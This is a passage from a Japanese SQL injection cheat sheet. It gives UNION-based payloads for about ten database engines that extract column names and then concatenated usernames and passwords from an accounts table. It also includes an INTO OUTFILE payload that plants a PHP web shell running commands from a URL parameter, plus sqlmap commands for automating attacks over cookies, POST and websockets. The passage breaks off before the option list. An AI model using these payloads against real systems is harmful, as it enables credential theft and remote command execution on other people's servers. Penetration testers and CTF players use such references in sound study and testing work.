 ```bash

# Amazon Redshift
UNION SELECT LISTAGG(column_name, ',') FROM information_schema.columns WHERE table_name='accounts';--  
```
カラム一覧が取得できたら、テーブルのデータを取得する。ここでは `username` と `password` の　2つのカラムがあると仮定する。
```bash
# SQLite
UNION SELECT GROUP_CONCAT(username || password) FROM accounts;--

# MySQL / MariaDB
UNION SELECT GROUP_CONCAT(CONCAT(username, password)) FROM accounts;--  

# PostgreSQL
UNION SELECT STRING_AGG(username || password, ',') FROM accounts;--  

# Microsoft SQL Server
UNION SELECT STRING_AGG(username + password, ',') FROM accounts;--  

# Microsoft SQL Server 2017 以前の場合
UNION SELECT STUFF((SELECT ',' + username + password FROM accounts FOR XML PATH('')), 1, 1, '');--  

# Oracle Database
UNION SELECT LISTAGG(username || password, ',') WITHIN GROUP (ORDER BY username) FROM accounts;--  

# IBM Db2
UNION SELECT LISTAGG(username || password, ',') WITHIN GROUP (ORDER BY username) FROM accounts;--  

# Firebird
UNION SELECT LIST(username || password, ',') FROM accounts;--  

# Amazon Redshift
UNION SELECT LISTAGG(username || password, ',') FROM accounts;--
```
UNIONインジェクションが可能かつPHPのアプリケーションの場合のみ `INTO OUTFILE` 構文を用いて任意のファイルを書き込むことができる
```bash
UNION SELECT "<?php echo system($_GET['cmd']); ?>" INTO OUTFILE '/path/to/directory'-- -
```
## sqlmap

SQLインジェクション攻撃を自動化するツール。

```bash
sqlmap -u URL OPTIONS

# cookieにPHPSESSIDをセット
sqlmap -u URL --cookie="PHPSESSID=XXXX"

# POSTメソッドなど、特定のHTTPメソッドを使用してリクエストを送信する場合(idはURLパラメータ)
sqlmap -u "<http://example.com/vulnerable.php>" --data="id=1" --method=POST

# websocketを用いたフォームに対してSQLインジェクションを試みる場合
sqlmap -u "ws://example.com:PORT_NUMBER" --data '{"id": "*"}'
```
オプションは以下。
